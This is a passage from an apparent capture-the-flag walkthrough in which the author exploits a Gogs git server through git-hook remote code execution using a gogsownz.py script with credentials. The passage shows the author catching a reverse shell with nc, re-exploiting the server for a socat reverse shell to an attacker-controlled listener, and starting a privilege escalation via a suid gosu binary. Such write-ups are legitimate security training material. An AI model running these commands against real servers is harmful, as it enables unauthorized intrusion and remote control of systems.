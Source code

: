 ```
[+] Setting Git hooks
[+] Git hooks set successfully
[+] Fetching last commit...
[+] Got last commit
[+] Triggering the RCE with a new commit
[!] Can't commit on repo kaneki/gogstest

```

And shell connected back:

```

root@kali# nc -lnvp 9001
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:40478.
bash: cannot set terminal process group (31): Not a tty
bash: no job control in this shell
bash-4.4$ id
id
uid=1000(git) gid=1000(git) groups=1000(git)

```

Since socat is on the host, I’ll re-exploit to get a `socat` reverse shell, which provides a full tty, which I’ll need:

```

python3 gogsownz.py http://127.0.0.1:3000/ -v --creds 'aogiritest:test@aogiri123' --rce "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:172.18.0.200:9001" --cleanup --burp

```

```

root@kali# socat file:`tty`,raw,echo=0 tcp-listen:9001
3713ea5e4353:~/gogs-repositories/kaneki/gogstest.git$ id
uid=1000(git) gid=1000(git) groups=1000(git)

```

Now I have a shell in the Gogs container as the user git.

## Privesc: Gogs git –> root

In this container, there’s a suid binary, `gosu`:

```

3713ea5e4353:/$ ls -l /usr/sbin/gosu 
-rws--x--x    1 root     root       1286720 May 24  2017 /usr/sbin/gosu

```
